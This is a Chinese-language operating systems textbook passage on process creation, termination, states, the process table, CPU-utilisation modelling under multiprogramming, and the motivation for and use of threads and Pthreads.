操作系统需要有一种方式来创建进程。一些非常简单的系统，即那种只为运行一个应用程序设计的系统（例如，微波炉中的控制器），可能在系统启动之时，以后所需要的所有进程都已存在。然而在通用系统中，需要有某种方法在运行时按需要创建或撤销进程。我们现在开始考察这个问题。
有4种主要事件导致进程的创建：
1)系统初始化。
2)执行了正在运行的进程所调用的进程创建系统调用。
3)用户请求创建一个新进程。
4)一个批处理作业的初始化。
启动操作系统时，通常会创建若干个进程。其中有些是前台进程，也就是同用户（人类）交互并且替他们完成工作的那些进程。其他的是后台进程，这些进程与特定的用户没有关系，相反，却具有某些专门的功能。例如，设计一个后台进程来接收发来的电子邮件，这个进程在一天的大部分时间都在睡眠，但是当电子邮件到达时就突然被唤醒了。也可以设计另一个后台进程来接收对该机器中Web页面的访问请求，在请求到达时唤醒该进程以便服务该请求。停留在后台处理诸如电子邮件、Web页面、新闻、打印之类活动的进程称为守护进程（daemon）。在大型系统中通常有很多守护进程。在UNIX中，可以用ps程序列出正在运行的进程；在Windows中，可使用任务管理器。
除了在启动阶段创建进程之外，新的进程也可以以后创建。一个正在运行的进程经常发出系统调用，以便创建一个或多个新进程协助其工作。在所要从事的工作可以容易地划分成若干相关的但没有相互作用的进程时，创建新的进程就特别有效果。例如，如果有大量的数据要通过网络调取并进行顺序处理，那么创建一个进程取数据，并把数据放入共享缓冲区中，而让第二个进程取走数据项并处理之，应该比较容易。在多处理机中，让每个进程在不同的CPU上运行会使整个作业运行得更快。
在交互式系统中，键入一个命令或者点（双）击一个图标就可以启动一个程序。这两个动作中的任何一个都会开始一个新的进程，并在其中运行所选择的程序。在基于命令行的UNIX系统中运行程序X，新的进程会从该进程接管开启它的窗口。在Microsoft Windows中，多数情形都是这样的，在一个进程开始时，它并没有窗口，但是它可以创建一个（或多个）窗口。在UNIX和Windows系统中，用户可以同时打开多个窗口，每个窗口都运行一个进程。通过鼠标用户可以选择一个窗口并且与该进程交互，例如，在需要时提供输入。
最后一种创建进程的情形仅在大型机的批处理系统中应用。用户在这种系统中（可能是远程地）提交批处理作业。在操作系统认为有资源可运行另一个作业时，它创建一个新的进程，并运行其输入队列中的下一个作业。
从技术上看，在所有这些情形中，新进程都是由于一个已存在的进程执行了一个用于创建进程的系统调用而创建的。这个进程可以是一个运行的用户进程、一个由键盘或鼠标启动的系统进程或者一个批处理管理进程。这个进程所做的工作是，执行一个用来创建新进程的系统调用。这个系统调用通知操作系统创建一个新进程，并且直接或间接地指定在该进程中运行的程序。
在UNIX系统中，只有一个系统调用可以用来创建新进程：fork。这个系统调用会创建一个与调用进程相同的副本。在调用了fork后，这两个进程（父进程和子进程）拥有相同的存储映像、同样的环境字符串和同样的打开文件。这就是全部情形。通常，子进程接着执行execve或一个类似的系统调用，以修改其存储映像并运行一个新的程序。例如，当一个用户在shell中键入命令sort时，shell就创建一个子进程，然后，这个子进程执行sort。之所以要安排两步建立进程，是为了在fork之后但在execve之前允许该子进程处理其文件描述符，这样可以完成对标准输入、标准输出和标准出错的重定向。
在Windows中，情形正相反，一个Win32函数调用CreateProcess既处理进程的创建，也负责把正确的程序装入新的进程。该调用有10个参数，其中包括要执行的程序、输入给该程序的命令行参数、各种安全属性、有关打开的文件是否继承的控制位、优先级信息、为该进程（若有的话）所需要创建的窗口规格以及指向一个结构的指针，在该结构中新创建进程的信息被返回给调用者。除了CreateProcess，Win32中有大约100个其他的函数用于处理进程的管理、同步以及相关的事务。
在UNIX和Windows中，进程创建之后，父进程和子进程有各自不同的地址空间。如果其中某个进程在其地址空间中修改了一个字，这个修改对其他进程而言是不可见的。在UNIX中，子进程的初始地址空间是父进程的一个副本，但是这里涉及两个不同的地址空间，不可写的内存区是共享的（某些UNIX的实现使程序正文在两者间共享，因为它不能被修改）。但是，对于一个新创建的进程而言，确实有可能共享其创建者的其他资源，诸如打开的文件等。在Windows中，从一开始父进程的地址空间和子进程的地址空间就是不同的。
进程在创建之后，它开始运行，完成其工作。但永恒是不存在的，进程也一样。迟早这个新的进程会终止，通常由下列条件引起：
1)正常退出（自愿的）。
2)出错退出（自愿的）。
3)严重错误（非自愿）。
4)被其他进程杀死（非自愿）。
多数进程是由于完成了它们的工作而终止。当编译器完成了所给定程序的编译之后，编译器执行一个系统调用，通知操作系统它的工作已经完成。在UNIX中该调用是exit，而在Windows中，相关的调用是ExitProcess。面向屏幕的程序也支持自愿终止。字处理软件、Internet浏览器和类似的程序中总有一个供用户点击的图标或菜单项，用来通知进程删除它所打开的任何临时文件，然后终止。
进程终止的第二个原因是进程发现了严重错误。例如，如果用户键入命令
cc foo.c
要编译程序foo.c，但是该文件并不存在，于是编译器就会退出。在给出了错误参数时，面向屏幕的交互式进程通常并不退出。相反，这些程序会弹出一个对话框，并要求用户再试一次。
进程终止的第三个原因是由进程引起的错误，通常是由于程序中的错误所致。例如，执行了一条非法指令、引用不存在的内存，或除数是零等。有些系统中（如UNIX），进程可以通知操作系统，它希望自行处理某些类型的错误，在这类错误中，进程会收到信号（被中断），而不是在这类错误出现时终止。
第四种终止进程的原因是，某个进程执行一个系统调用通知操作系统杀死某个其他进程。在UNIX中，这个系统调用是kill。在Win32中对应的函数是TerminateProcess。在这两种情形中，“杀手”都必须获得确定的授权以便进行动作。在有些系统中，当一个进程终止时，不论是自愿的还是其他原因，由该进程所创建的所有进程也一律立即被杀死。不过，UNIX和Windows都不是这种工作方式。
某些系统中，当进程创建了另一个进程后，父进程和子进程就以某种形式继续保持关联。子进程自身可以创建更多的进程，组成一个进程的层次结构。请注意，这与植物和动物的有性繁殖不同，进程只有一个父进程（但是可以有零个、一个、两个或多个子进程）。
在UNIX中，进程和它的所有子女以及后裔共同组成一个进程组。当用户从键盘发出一个信号时，该信号被送给当前与键盘相关的进程组中的所有成员（它们通常是在当前窗口创建的所有活动进程）。每个进程可以分别捕获该信号、忽略该信号或采取默认的动作，即被该信号杀死。
这里有另一个例子，可以用来说明进程层次的作用，考虑UNIX在启动时如何初始化自己。一个称为init的特殊进程出现在启动映像中。当它开始运行时，读入一个说明终端数量的文件。接着，为每个终端创建一个新进程。这些进程等待用户登录。如果有一个用户登录成功，该登录进程就执行一个shell准备接收命令。所接收的这些命令会启动更多的进程，以此类推。这样，在整个系统中，所有的进程都属于以init为根的一棵树。
相反，Windows中没有进程层次的概念，所有的进程都是地位相同的。惟一类似于进程层次的暗示是在创建进程的时侯，父进程得到一个特别的令牌（称为句柄），该句柄可以用来控制子进程。但是，它有权把这个令牌传送给某个其他进程，这样就不存在进程层次了。在UNIX中，进程就不能剥夺其子女的“继承权”。
尽管每个进程是一个独立的实体，有其自己的程序计数器和内部状态，但进程之间经常需要相互作用。一个进程的输出结果可能作为另一个进程的输入。在shell命令
cat chapter1 chapter2 chapter3|grep tree
中，第一个进程运行cat，将三个文件连接并输出。第二个进程运行grep，它从输入中选择所有包含单词“tree”的那些行。根据这两个进程的相对速度（这取决于这两个程序的相对复杂度和各自所分配到的CPU时间），可能发生这种情况：grep准备就绪可以运行，但输入还没有完成。于是必须阻塞grep，直到输入到来。
当一个进程在逻辑上不能继续运行时，它就会被阻塞，典型的例子是它在等待可以使用的输入。还可能有这样的情况：一个概念上能够运行的进程被迫停止，因为操作系统调度另一个进程占用了CPU。这两种情况是完全不同的。在第一种情况下，进程挂起是程序自身固有的原因（在键入用户命令行之前，无法执行命令）。第二种情况则是由系统技术上的原因引起的（由于没有足够的CPU，所以不能使每个进程都有一台它私用的处理器）。在图2-2中可以看到显示进程的三种状态的状态图。这三种状态是：
1)运行态（该时刻进程实际占用CPU）。
2)就绪态（可运行，但因为其他进程正在运行而暂时停止）。
3)阻塞态（除非某种外部事件发生，否则进程不能运行）。
前两种状态在逻辑上是类似的。处于这两种状态的进程都可以运行，只是对于第二种状态暂时没有CPU分配给它。第三种状态与前两种状态不同，处于该状态的进程不能运行，即使CPU空闲也不行。
进程的三种状态之间有四种可能的转换关系，如图2-2所示。在操作系统发现进程不能继续运行下去时，发生转换1。在某些系统中，进程可以执行一个诸如pause的系统调用来进入阻塞状态。在其他系统中，包括UNIX，当一个进程从管道或设备文件（例如终端）读取数据时，如果没有有效的输入存在，则进程会被自动阻塞。
转换2和3是由进程调度程序引起的，进程调度程序是操作系统的一部分，进程甚至感觉不到调度程序的存在。系统认为一个运行进程占用处理器的时间已经过长，决定让其他进程使用CPU时间时，会发生转换2。在系统已经让所有其他进程享有了它们应有的公平待遇而重新轮到第一个进程再次占用CPU运行时，会发生转换3。调度程序的主要工作就是决定应当运行哪个进程、何时运行及它应该运行多长时间，这是很重要的一点，我们将在本章的后面部分进行讨论。已经提出了许多算法，这些算法力图在整体效率和进程的竞争公平性之间取得平衡。我们将在本章稍后部分研究其中的一些问题。
当进程等待的一个外部事件发生时（如一些输入到达），则发生转换4。如果此时没有其他进程运行，则立即触发转换3，该进程便开始运行。否则该进程将处于就绪态，等待CPU空闲并且轮到它运行。
使用进程模型使得我们易于想象系统内部的操作状况。一些进程正在运行执行用户键入命令所对应的程序。另一些进程是系统的一部分，它们的任务是完成下列一些工作：比如，执行文件服务请求、管理磁盘驱动器和磁带机的运行细节等。当发生一个磁盘中断时，系统会做出决定，停止运行当前进程，转而运行磁盘进程，该进程在此之前因等待中断而处于阻塞态。这样，我们就可以不再考虑中断，而只是考虑用户进程、磁盘进程、终端进程等。这些进程在等待时总是处于阻塞状态。在已经读入磁盘或键入字符后，等待它们的进程就被解除阻塞，并成为可调度运行的进程。
从这个观点引出了图2-3所示的模型。在图2-3中，操作系统的最底层是调度程序，在它上面有许多进程。所有关于中断处理、启动进程和停止进程的具体细节都隐藏在调度程序中。实际上，调度程序是一段非常短小的程序。操作系统的其他部分被简单地组织成进程的形式。不过，很少有真实的系统是以这样的理想方式构造的。

为了实现进程模型，操作系统维护着一张表格（一个结构数组），即进程表（process table）。每个进程占用一个进程表项。（有些作者称这些表项为进程控制块。）该表项包含了进程状态的重要信息，包括程序计数器、堆栈指针、内存分配状况、所打开文件的状态、账号和调度信息，以及其他在进程由运行态转换到就绪态或阻塞态时必须保存的信息，从而保证该进程随后能再次启动，就像从未被中断过一样。
图2-4中展示了在一个典型系统中的关键字段。第一列中的字段与进程管理有关。其他两列分别与存储管理和文件管理有关。应该注意到进程表中的字段是与系统密切相关的，不过该图给出了所需要信息的大致介绍。

在了解进程表后，就可以对在单个（或每一个）CPU上如何维持多个顺序进程的错觉做更多的阐述。与每一I/O类关联的是一个称作中断向量（interrupt vector）的位置（靠近内存底部的固定区域）。它包含中断服务程序的入口地址。假设当一个磁盘中断发生时，用户进程3正在运行，则中断硬件将程序计数器、程序状态字，有时还有一个或多个寄存器压入堆栈，计算机随即跳转到中断向量所指示的地址。这些是硬件完成的所有操作，然后软件，特别是中断服务例程就接管一切剩余的工作。
所有的中断都从保存寄存器开始，对于当前进程而言，通常是在进程表项中。随后，会从堆栈中删除由中断硬件机制存入堆栈的那部分信息，并将堆栈指针指向一个由进程处理程序所使用的临时堆栈。一些诸如保存寄存器值和设置堆栈指针等操作，无法用C语言这一类高级语言描述，所以这些操作通过一个短小的汇编语言例程来完成，通常该例程可以供所有的中断使用，因为无论中断是怎样引起的，有关保存寄存器的工作则是完全一样的。
当该例程结束后，它调用一个C过程处理某个特定的中断类型剩下的工作。（假定操作系统由C语言编写，通常这是所有真实操作系统的选择）。在完成有关工作之后，大概就会使某些进程就绪，接着调用调度程序，决定随后该运行哪个进程。随后将控制转给一段汇编语言代码，为当前的进程装入寄存器值以及内存映射并启动该进程运行。图2-5中总结了中断处理和调度的过程。值得注意的是，各种系统之间某些细节会有所不同。
当该进程结束时，操作系统显示一个提示符并等待新的命令。一旦它接到新命令，就装入新的程序进内存，覆盖前一个程序。
采用多道程序设计可以提高CPU的利用率。严格地说，如果进程用于计算的平均时间是进程在内存中停留时间的20%，且内存中同时有5个进程，则CPU将一直满负载运行。然而，这个模型在现实中过于乐观，因为它假设这5个进程不会同时等待I/O。
更好的模型是从概率的角度来看CPU的利用率。假设一个进程等待I/O操作的时间与其停留在内存中时间的比为p。当内存中同时有n个进程时，则所有n个进程都在等待I/O（此时CPU空转）的概率是pn 。CPU的利用率由下面的公式给出：
CPU利用率=1-pn
图2-6以n为变量的函数表示了CPU的利用率，n称为多道程序设计的道数（degree of multiprogramming）。

从图2-6中可以清楚地看到，如果进程花费80%的时间等待I/O，为使CPU的浪费低于10%，至少要有10个进程同时在内存中。当读者认识到一个等待用户从终端输入的交互式进程是处于I/O等待状态时，那么很明显，80%甚至更多的I/O等待时间是普遍的。即使是在服务器中，做大量磁盘I/O操作的进程也会花费同样或更多的等待时间。
从完全精确的角度考虑，应该指出此概率模型只是描述了一个大致的状况。它假设所有n个进程是独立的，即内存中的5个进程中，3个运行，2个等待，是完全可接受的。但在单CPU中，不能同时运行3个进程，所以当CPU忙时，已就绪的进程也必须等待CPU。因而，进程不是独立的。更精确的模型应该用排队论构造，但我们的模型（当进程就绪时，给进程分配CPU，否则让CPU空转）仍然是有效的，即使图2-6的真实曲线会与图中所画的略有不同。
虽然图2-6的模型很简单，很粗略，它依然对预测CPU的性能很有效。例如，假设计算机有512MB内存，操作系统占用128MB，每个用户程序也占用128MB。这些内存空间允许3个用户程序同时驻留在内存中。若80%的时间用于I/O等待，则CPU的利用率（忽略操作系统开销）大约是1-0.83 ，即大约49%。在增加512MB字节的内存后，可从3道程序设计提高到7道程序设计，因而CPU利用率提高到79%。换言之，第二个512MB内存提高了30%的吞吐量。
增加第三个512MB内存只能将CPU利用率从79%提高到91%，吞吐量的提高仅为12%。通过这一模型，计算机用户可以确定第一次增加内存是一个合算的投资，而第二个则不是。
在传统操作系统中，每个进程有一个地址空间和一个控制线程。事实上，这几乎就是进程的定义。不过，经常存在在同一个地址空间中准并行运行多个控制线程的情形，这些线程就像（差不多）分离的进程（共享地址空间除外）。在下面各节中，我们将讨论这些情形及其实现。
为什么人们需要在一个进程中再有一类进程？有若干理由说明产生这些迷你进程（称为线程）的必要性。下面我们来讨论其中一些理由。人们需要多线程的主要原因是，在许多应用中同时发生着多种活动。其中某些活动随着时间的推移会被阻塞。通过将这些应用程序分解成可以准并行运行的多个顺序线程，程序设计模型会变得更简单。
在前面我们已经进行了有关讨论。准确地说，这正是之前关于进程模型的讨论。有了这样的抽象，我们才不必考虑中断、定时器和上下文切换，而只需考察并行进程。类似地，只是在有了多线程概念之后，我们才加入了一种新的元素：并行实体共享同一个地址空间和所有可用数据的能力。对于某些应用而言，这种能力是必需的，而这正是多进程模型（它们具有不同地址空间）所无法表达的。
第二个关于需要多线程的理由是，由于线程比进程更轻量级，所以它们比进程更容易（即更快）创建，也更容易撤销。在许多系统中，创建一个线程较创建一个进程要快10～100倍。在有大量线程需要动态和快速修改时，具有这一特性是很有用的。
需要多线程的第三个原因涉及性能方面的讨论。若多个线程都是CPU密集型的，那么并不能获得性能上的增强，但是如果存在着大量的计算和大量的I/O处理，拥有多个线程允许这些活动彼此重叠进行，从而会加快应用程序执行的速度。
最后，在多CPU系统中，多线程是有益的，在这样的系统中，真正的并行有了实现的可能。我们会在第8章讨论这个主题。
通过考察一些典型例子，我们就可以更清楚地看出多线程的有益之处。作为第一个例子，考虑一个字处理软件。字处理软件通常按照出现在打印页上的格式在屏幕上精确显示文档。特别地，所有的行分隔符和页分隔符都在正确的最终位置上，这样在需要时用户可以检查和修改文档（比如，消除孤行——在一页上不完整的顶部行和底部行，因为这些行不甚美观）。
假设用户正在写一本书。从作者的观点来看，最容易的方法是把整本书作为一个文件，这样一来，查询内容、完成全局替换等都非常容易。另一种方法是，把每一章都处理成单独一个文件。但是，在把每个小节和子小节都分成单个的文件之后，若必须对全书进行全局的修改时，那就真是麻烦了，因为有成百个文件必须一个个地编辑。例如，如果所建议的某个标准xxxx正好在书付印之前被批准了，于是“标准草案xxxx”一类的字眼就必须改为“标准xxxx”。如果整本书是一个文件，那么只要一个命令就可以完成全部的替换处理。相反，如果一本书分成了300个文件，那么就必须分别对每个文件进行编辑。
现在考虑，如果有一个用户突然在一个有800页的文件的第一页上删掉了一个语句之后，会发生什么情形。在检查了所修改的页面并确认正确后，这个用户现在打算接着在第600页上进行另一个修改，并键入一条命令通知字处理软件转到该页面（可能要查阅只在那里出现的一个短语）。于是字处理软件被强制对整个书的前600页重新进行格式处理，这是因为在排列该页前面的所有页面之前，字处理软件并不知道第600页的第一行应该在哪里。而在第600页的页面可以真正在屏幕上显示出来之前，计算机可能要拖延相当一段时间，从而令用户不甚满意。
多线程在这里可以发挥作用。假设字处理软件被编写成含有两个线程的程序。一个线程与用户交互，而另一个在后台重新进行格式处理。一旦在第1页中的语句被删除掉，交互线程就立即通知格式化线程对整本书重新进行处理。同时，交互线程继续监控键盘和鼠标，并响应诸如滚动第1页之类的简单命令，此刻，另一个线程正在后台疯狂地运算。如果有点运气的话，重新格式化会在用户请求查看第600页之前完成，这样，第600页页面就立即可以在屏幕上显示出来。
如果我们已经做到了这一步，那么为什么不再进一步增加一个线程呢？许多字处理软件都有每隔若干分钟自动在磁盘上保存整个文件的特点，用于避免由于程序崩溃、系统崩溃或电源故障而造成用户一整天的工作丢失的情况。第三个线程可以处理磁盘备份，而不必干扰其他两个线程。拥有三个线程的情形，如图2-7所示。

如果程序是单线程的，那么在进行磁盘备份时，来自键盘和鼠标的命令就会被忽略，直到备份工作完成为止。用户当然会认为性能很差。另一个方法是，为了获得好的性能，可以让键盘和鼠标事件中断磁盘备份，但这样却引入了复杂的中断驱动程序设计模型。如果使用三个线程，程序设计模型就很简单了。第一个线程只是和用户交互；第二个线程在得到通知时进行文档的重新格式化；第三个线程周期性地将RAM中的内容写到磁盘上。
很显然，在这里用三个不同的进程是不能工作的，这是因为三个线程都需要在同一个文件上进行操作。通过让三个线程代替三个进程，三个线程共享公共内存，于是它们都可以访问同一个正在编辑的文件。
许多其他的交互式程序中也存在类似的情形。例如，电子表格是允许用户维护矩阵的一种程序，矩阵中的一些元素是用户提供的数据；另一些元素是通过所输入的数据运用可能比较复杂的公式而得出的计算结果。当用户改变一个元素时，许多其他元素就必须重新计算。通过一个后台线程进行重新计算的方式，交互式线程就能够在进行计算的时候，让用户从事更多的工作。类似地，第三个线程可以在磁盘上进行周期性的备份工作。
现在考虑另一个多线程发挥作用的例子：一个万维网服务器。对页面的请求发给服务器，而所请求的页面发回给客户机。在多数Web站点上，某些页面较其他页面相比，有更多的访问。例如，对Sony主页的访问就远远超过对深藏在页面树里的任何特定摄像机的技术说明书页面的访问。利用这一事实，Web服务器可以把获得大量访问的页面集合保存在内存中，避免到磁盘去调入这些页面，从而改善性能。这样的一种页面集合称为高速缓存（cache），高速缓存也运用在其他许多场合中。例如在第1章中介绍的CPU缓存。
一种组织Web服务器的方式如图2-8所示。在这里，一个称为分派程序（dispatcher）的线程从网络中读入工作请求。在检查请求之后，分派线程挑选一个空转的（即被阻塞的）工作线程（worker thread），提交该请求，通常是在每个线程所配有的某个专门字中写入一个消息指针。接着分派线程唤醒睡眠的工作线程，将它从阻塞状态转为就绪状态。

在工作线程被唤醒之后，它检查有关的请求是否在Web页面高速缓存之中，这个高速缓存是所有线程都可以访问的。如果没有，该线程开始一个从磁盘调入页面的read操作，并且阻塞直到该磁盘操作完成。当上述线程阻塞在磁盘操作上时，为了完成更多的工作，分派线程可能挑选另一个线程运行，也可能把另一个当前就绪的工作线程投入运行。
这种模型允许把服务器编写为顺序线程的一个集合。在分派线程的程序中包含一个无限循环，该循环用来获得工作请求并且把工作请求派给工作线程。每个工作线程的代码包含一个从分派线程接收请求，并且检查Web高速缓存中是否存在所需页面的无限循环。如果存在，就将该页面返回给客户机，接着该工作线程阻塞，等待一个新的请求。如果没有，工作线程就从磁盘调入该页面，将该页面返回给客户机，然后该工作线程阻塞，等待一个新的请求。
图2-9给出了有关代码的大致框架。如同本书的其他部分一样，这里假设TRUE为常数1。另外，buf和page分别是保存工作请求和Web页面的相应结构。

现在考虑在没有多线程的情形下，如何编写Web服务器。一种可能的方式是，使其像一个线程一样运行。Web服务器的主循环获得请求，检查请求，并且在取下一个请求之前完成整个工作。在等待磁盘操作时，服务器就空转，并且不处理任何到来的其他请求。如果该Web服务器运行在惟一的机器上，通常情形都是这样，那么在等待磁盘操作时CPU只能空转。结果导致每秒钟只有很少的请求被处理。可见线程较好地改善了Web服务器的性能，而且每个线程是按通常方式顺序编程的。
到现在为止，我们有了两个可能的设计：多线程Web服务器和单线程Web服务器。假设没有多线程可用，而系统设计者又认为由于单线程所造成的性能降低是不能接受的，那么如果可以使用read系统调用的非阻塞版本，还存在第三种可能的设计。在请求到来时，这个惟一的线程对请求进行考察。如果该请求能够在高速缓存中得到满足，那么一切都好，如果不能，则启动一个非阻塞的磁盘操作。
服务器在表格中记录当前请求的状态，然后去处理下一个事件。下一个事件可能是一个新工作的请求，或是磁盘对先前操作的回答。如果是新工作的请求，就开始该工作。如果是磁盘的回答，就从表格中取出对应的信息，并处理该回答。对于非阻塞磁盘I/O而言，这种回答多数会以信号或中断的形式出现。
在这一设计中，前面两个例子中的“顺序进程”模型消失了。每次服务器从为某个请求工作的状态切换到另一个状态时，都必须显式地保存或重新装入相应的计算状态。事实上，我们以一种困难的方式模拟了线程及其堆栈。这里，每个计算都有一个被保存的状态，存在一个会发生且使得相关状态发生改变的事件集合，我们把这类设计称为有限状态机（finite-state machine）。有限状态机这一概念广泛地应用在计算机科学中。
现在很清楚多线程必须提供的是什么了。多线程使得顺序进程的思想得以保留下来，这种顺序进程阻塞了系统调用（如磁盘I/O），但是仍旧实现了并行性。对系统调用进行阻塞使程序设计变的较为简单，而且并行性改善了性能。单线程服务器虽然保留了阻塞系统调用的简易性，但是却放弃了性能。第三种处理方法运用了非阻塞调用和中断，通过并行性实现了高性能，但是给编程增加了困难。在图2-10中给出了上述模式的总结。
有关多线程作用的第三个例子是那些必须处理极大量数据的应用。通常的处理方式是，读进一块数据，对其处理，然后再写出数据。这里的问题是，如果只能使用阻塞系统调用，那么在数据进入和数据输出时，会阻塞进程。在有大量计算需要处理的时候，让CPU空转显然是浪费，应该尽可能避免。
多线程提供了一种解决方案，有关的进程可以用一个输入线程、一个处理线程和一个输出线程构造。输入线程把数据读入到输入缓冲区中；处理线程从输入缓冲区中取出数据，处理数据，并把结果放到输出缓冲区中；输出线程把这些结果写到磁盘上。按照这种工作方式，输入、处理和输出可以全部同时进行。当然，这种模型只有当系统调用只阻塞调用线程而不是阻塞整个进程时，才能正常工作。
既然我们已经明白为什么线程会有用以及如何使用它们，不如让我们用更近一步的眼光来审查一下上面的想法。进程模型基于两种独立的概念：资源分组处理与执行。有时，将这两种概念分开会更有益，这也引入了“线程”这一概念。我们将先来看经典的线程模型；之后我们会来研究“模糊进程与线程分界线”的Linux线程模型。
理解进程的一个角度是，用某种方法把相关的资源集中在一起。进程有存放程序正文和数据以及其他资源的地址空间。这些资源中包括打开的文件、子进程、即将发生的报警、信号处理程序、账号信息等。把它们都放到进程中可以更容易管理。
另一个概念是，进程拥有一个执行的线程，通常简写为线程（thread）。在线程中有一个程序计数器，用来记录接着要执行哪一条指令。线程拥有寄存器，用来保存线程当前的工作变量。线程还拥有一个堆栈，用来记录执行历史，其中每一帧保存了一个已调用的但是还没有从中返回的过程。尽管线程必须在某个进程中执行，但是线程和它的进程是不同的概念，并且可以分别处理。进程用于把资源集中到一起，而线程则是在CPU上被调度执行的实体。
线程给进程模型增加了一项内容，即在同一个进程环境中，允许彼此之间有较大独立性的多个线程执行。在同一个进程中并行运行多个线程，是对在同一台计算机上并行运行多个进程的模拟。在前一种情形下，多个线程共享同一个地址空间和其他资源。而在后一种情形中，多个进程共享物理内存、磁盘、打印机和其他资源。由于线程具有进程的某些性质，所以有时被称为轻量级进程（lightweight process）。多线程这个术语，也用来描述在同一个进程中允许多个线程的情形。正如我们在第1章中看到的，一些CPU已经有直接硬件支持多线程，并允许线程切换在纳秒级完成。
在图2-11a中，可以看到三个传统的进程。每个进程有自己的地址空间和单个控制线程。相反，在图2-11b中，可以看到一个进程带有三个控制线程。尽管在两种情形中都有三个线程，但是在图2-11a中，每一个线程都在不同的地址空间中运行，而在图2-11b中，这三个线程全部在相同的地址空间中运行。

当多线程进程在单CPU系统中运行时，线程轮流运行。在图2-1中，我们已经看到了进程的多道程序设计是如何工作的。通过在多个进程之间来回切换，系统制造了不同的顺序进程并行运行的假象。多线程的工作方式也是类似的。CPU在线程之间的快速切换，制造了线程并行运行的假象，好似它们在一个比实际CPU慢一些的CPU上同时运行。在一个有三个计算密集型线程的进程中，线程以并行方式运行，每个线程在一个CPU上得到了真实CPU速度的三分之一。
进程中的不同线程不像不同进程之间那样存在很大的独立性。所有的线程都有完全一样的地址空间，这意味着它们也共享同样的全局变量。由于各个线程都可以访问进程地址空间中的每一个内存地址，所以一个线程可以读、写或甚至清除另一个线程的堆栈。线程之间是没有保护的，原因是1）不可能，2）也没有必要。这与不同进程是有差别的。不同的进程会来自不同的用户，它们彼此之间可能有敌意，一个进程总是由某个用户所拥有，该用户创建多个线程应该是为了它们之间的合作而不是彼此间争斗。除了共享地址空间之外，所有线程还共享同一个打开文件集、子进程、报警以及相关信号等，如图2-12所示。这样，对于三个没有关系的线程而言，应该使用图2-11a的结构，而在三个线程实际完成同一个作业，并彼此积极密切合作的情形中，图2-11b则比较合适。
图2-12中，第一列表项是进程的属性，而不是线程的属性。例如，如果一个线程打开了一个文件，该文件对该进程中的其他线程都可见，这些线程可以对该文件进行读写。由于资源管理的单位是进程而非线程，所以这种情形是合理的。如果每个线程有其自己的地址空间、打开文件、即将发生的报警等，那么它们就应该是不同的进程了。线程概念试图实现的是，共享一组资源的多个线程的执行能力，以便这些线程可以为完成某一任务而共同工作。
和传统进程一样（即只有一个线程的进程），线程可以处于若干种状态的任何一个：运行、阻塞、就绪或终止。正在运行的线程拥有CPU并且是活跃的。被阻塞的线程正在等待某个释放它的事件。例如，当一个线程执行从键盘读入数据的系统调用时，该线程就被阻塞直到键入了输入为止。线程可以被阻塞，以便等待某个外部事件的发生或者等待其他线程来释放它。就绪线程可被调度运行，并且只要轮到它就很快可以运行。线程状态之间的转换和进程状态之间的转换是一样的，如图2-2所示。
认识到每个线程有其自己的堆栈很重要，如图2-13所示。每个线程的堆栈有一帧，供各个被调用但是还没有从中返回的过程使用。在该帧中存放了相应过程的局部变量以及过程调用完成之后使用的返回地址。例如，如果过程X调用过程Y，而Y又调用Z，那么当Z执行时，供X、Y和Z使用的帧会全部存在堆栈中。通常每个线程会调用不同的过程，从而有一个各自不同的执行历史。这就是为什么每个线程需要有自己的堆栈的原因。

在多线程的情况下，进程通常会从当前的单个线程开始。这个线程有能力通过调用一个库函数（如thread_create）创建新的线程。thread_create的参数专门指定了新线程要运行的过程名。这里，没有必要对新线程的地址空间加以规定，因为新线程会自动在创建线程的地址空间中运行。有时，线程是有层次的，它们具有一种父子关系，但是，通常不存在这样一种关系，所有的线程都是平等的。不论有无层次关系，创建线程通常都返回一个线程标识符，该标识符就是新线程的名字。
当一个线程完成工作后，可以通过调用一个库过程（如thread_exit）退出。该线程接着消失，不再可调度。在某些线程系统中，通过调用一个过程，例如thread_join，一个线程可以等待一个（特定）线程退出。这个过程阻塞调用线程直到那个（特定）线程退出。在这种情况下，线程的创建和终止非常类似于进程的创建和终止，并且也有着同样的选项。
另一个常见的线程调用是thread_yield，它允许线程自动放弃CPU从而让另一个线程运行。这样一个调用是很重要的，因为不同于进程，（线程库）无法利用时钟中断强制线程让出CPU。所以设法使线程行为“高尚”起来，并且随着时间的推移自动交出CPU，以便让其他线程有机会运行，就变得非常重要。有的调用允许某个线程等待另一个线程完成某些任务，或等待一个线程宣称它已经完成了有关的工作等。
通常而言，线程是有益的，但是线程也在程序设计模式中引入了某种程度的复杂性。考虑一下UNIX中的fork系统调用。如果父进程有多个线程，那么它的子进程也应该拥有这些线程吗？如果不是，则该子进程可能会工作不正常，因为在该子进程中的线程都是绝对必要的。
然而，如果子进程拥有了与父进程一样的多个线程，如果父进程在read系统调用（比如键盘）上被阻塞了会发生什么情况？是两个线程被阻塞在键盘上（一个属于父进程，另一个属于子进程）吗？在键入一行输入之后，这两个线程都得到该输入的副本吗？还是仅有父进程得到该输入的副本？或是仅有子进程得到？类似的问题在进行网络连接时也会出现。
另一类问题和线程共享许多数据结构的事实有关。如果一个线程关闭了某个文件，而另一个线程还在该文件上进行读操作时会怎样？假设有一个线程注意到几乎没有内存了，并开始分配更多的内存。在工作一半的时候，发生线程切换，新线程也注意到几乎没有内存了，并且也开始分配更多的内存。这样，内存可能会分配两次。不过这些问题通过努力是可以解决的。总之，要使多线程的程序正确工作，就需要仔细思考和设计。
为实现可移植的线程程序，IEEE在IEEE标准1003.1c中定义了线程的标准。它定义的线程包叫做Pthread。大部分UNIX系统都支持该标准。这个标准定义了超过60个函数调用，如果在这里列举一遍就太多了。取而代之的是，我们将仅仅描述一些主要的函数，以说明它是如何工作的。图2-14中列举了这些函数调用。

所有Pthread线程都有某些特性。每一个都含有一个标识符、一组寄存器（包括程序计数器）和一组存储在结构中的属性。这些属性包括堆栈大小、调度参数以及使用线程需要的其他项目。
创建一个新线程需要使用pthread_create调用。新创建的线程的线程标识符作为函数值返回。这种调用有意看起来很像fork系统调用，其中线程标识符起着PID的作用，而这么做的目的主要是为了标识在其他调用中引用的线程。
当一个线程完成分配给它的工作时，可以通过调用pthread_exit来终止。这个调用终止该线程并释放它的栈。
一般一个线程在继续运行前需要等待另一个线程完成它的工作并退出。可以通过pthread_join线程调用来等待别的特定线程的终止。而要等待线程的线程标识符作为一个参数给出。
